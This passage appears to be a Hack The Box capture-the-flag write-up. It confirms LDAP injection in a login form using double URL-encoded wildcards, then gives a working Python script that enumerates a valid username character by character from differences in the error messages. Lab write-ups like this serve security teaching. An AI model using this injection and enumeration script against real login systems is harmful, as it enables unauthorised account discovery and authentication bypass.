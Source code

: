 Knowing that the token string is stored in an "attribute", we can make the assumption that the authentication system is based on LDAP.

### Testing for LDAP Injection

Testing for LDAP Injection would help us validate our hypothesis that the website is using LDAP and potentially bypass the authentication system.

First, we can try to send characters that are specific to LDAP's syntax. For example, the `*` (wilcard) character:

{{<figure src="/img/htb/ctf/wc_char_noenc.png" position=center caption="Sending the * character with no encoding">}}

Sending the `*` character does not return any error message. This indicates that some characters are maybe filtered before reaching the application logic. 

If that's the case we can try URL-encoding them:

{{<figure src="/img/htb/ctf/wc_char_enc1.png" position=center caption="* character URL-encoded once">}}

{{<figure src="/img/htb/ctf/wc_char_enc2.png" position=center caption="* character double URL-encoded">}}

When we double URL-encoded our payload, we got a different response: "Cannot login". 

Earlier, when we tried admin we got the response: "User admin not found"

This means we got a valid user by using the `*` character. Knowing this, and leveraging the difference between the 2 responses, we can retrieve a username character by character.

### Username enumeration

This is how we'll retrieve the username:
- First we send `a*` as the username. If we get the message "Cannot login", then we know that the first letter is 'a'. If we don't, we move on to the letter 'b' by sending `b*`, so on and so forth.
- Let's say that we confirmed that the first letter is 'a'. Now we repeat the process for the second letter by sending `aa*`
- We repeat this process until we get the full username.

For this, we can use this python script:

```python
import requests
import string
import time

letters = list(string.ascii_lowercase)
url = 'http://10.10.10.122/login.php'

def guess_next_char(current_guessed_string):
    for letter in letters:
        time.sleep(0.3)
        data = {
            "inputUsername": f"{current_guessed_string}{letter}%2a",
            "inputOTP": "1234",
        }
        response = requests.post(url, data=data)
        if "Cannot login" in response.text:
            return letter

    print("END")
    exit(1)

username = ""
while True:
    username += guess_next_char(username)
    print(username)
```
